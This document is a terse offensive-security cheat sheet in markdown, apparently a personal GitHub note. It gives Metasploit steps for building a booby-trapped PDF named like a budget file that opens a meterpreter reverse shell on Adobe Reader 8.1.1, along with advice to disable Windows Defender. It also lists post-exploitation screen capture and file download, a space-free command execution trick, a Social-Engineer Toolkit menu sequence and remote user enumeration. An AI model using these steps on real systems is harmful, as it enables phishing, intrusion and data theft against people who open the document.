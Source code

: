 # Misc exploit

Command execution without space:

`
IFS=_;command='ls_-l';$command
`

# Exploit Adobe example:

These two combinations work on Windows 10. Make sure to turn off windows defender...
`
exploit/windows/fileformat/adobe_pdf_embedded_exe with Adobe Reader 8.1.1
exploit/windows/fileformat/adobe_libtiff with Adobe Reader 8.1.1
`
Get adobe download from: ftp://ftp.adobe.com/pub/adobe/reader/win/8.x/

Steps:
`
use exploit/windows/fileformat/adobe_libtiff 
set FILENAME Budget-2020.pdf
set PAYlOAD windows/meterpreter/reverse_tcp
set LHOST 172.17.0.2
exploit 
[COPY OVER THE PDF FILE]
use exploit/multi/handler 
`

Capture screen:
`
use espia
screengrab

`
Download a file:
`
download secret.docx
'

# Exploit settolkit example
`
3
1
13
2
2
`

# Hashcat


# Windows things

Checked logged in users:
`
qwinsta /server:1.1.1.1
`


# Useful tools

## XSS

https://xsshunter.com/

## SSL/TLS config guide

https://mozilla.github.io/server-side-tls/ssl-config-generator/

